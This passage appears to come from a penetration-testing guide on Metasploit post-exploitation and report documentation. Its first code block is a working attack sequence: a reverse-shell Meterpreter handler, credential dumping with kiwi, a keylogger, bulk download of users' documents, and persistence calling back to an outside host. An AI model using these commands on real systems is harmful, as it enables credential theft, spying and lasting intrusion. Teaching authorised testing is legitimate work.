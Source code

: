 ### **Advanced Post-Exploitation Integration**

#### **Meterpreter to External Tools Pipeline**
```bash
# Establish advanced session
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp  
exploit

# Meterpreter advanced capabilities
meterpreter > load kiwi
meterpreter > creds_all
meterpreter > screenshot
meterpreter > keyscan_start

# Data exfiltration and persistence
meterpreter > download "C:\\Users\\*\\Desktop\\*.docx" /tmp/documents/
meterpreter > run persistence -X -i 5 -p 4444 -r 192.168.1.100
```

---

## 📝 Professional Documentation and Reporting Standards

### **Comprehensive Evidence Collection Protocol**

#### **📸 Screenshot Documentation Requirements**
1. **Pre-Exploitation Evidence:**
   - Target discovery scan results (Nmap output)
   - Service enumeration confirmations  
   - Vulnerability verification checks

2. **During Exploitation:**
   - Successful module configuration screens
   - Exploit execution and session establishment
   - Critical error messages or failures

3. **Post-Exploitation Proof:**
   - System information gathering (`whoami`, `uname`, `systeminfo`)
   - Privilege level confirmation (`id`, `net user`)
   - Objective completion (flag retrieval, data access)

#### **📋 Command History and Timing Documentation**
```bash
# Automated command logging setup  
script metasploit_session_$(date +%Y%m%d_%H%M%S).log
msfconsole -q

# Within Metasploit sessions
msf6 > spool /tmp/metasploit_commands_$(date +%Y%m%d_%H%M%S).log
```
